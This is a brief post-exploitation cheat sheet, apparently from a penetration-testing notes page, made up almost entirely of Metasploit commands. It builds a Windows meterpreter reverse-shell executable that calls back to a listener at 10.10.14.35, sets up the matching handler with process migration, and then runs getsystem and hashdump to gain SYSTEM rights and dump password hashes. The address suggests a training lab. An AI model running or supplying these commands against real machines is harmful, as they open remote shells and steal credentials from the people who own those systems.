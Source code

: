# Post Exploitation

### Metasploit

{% code overflow="wrap" %}
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.35 LPORT=53 -f exe -o rshell.exe

sudo msfconsole -q -x "use exploit/multi/handler;set PAYLOAD windows/x64/meterpreter/reverse_tcp;set AutoRunScript post/windows/manage/migrate;set LHOST 10.10.14.35;set LPORT 53;run -j"

>getsystem 
>hashdump 
```
{% endcode %}
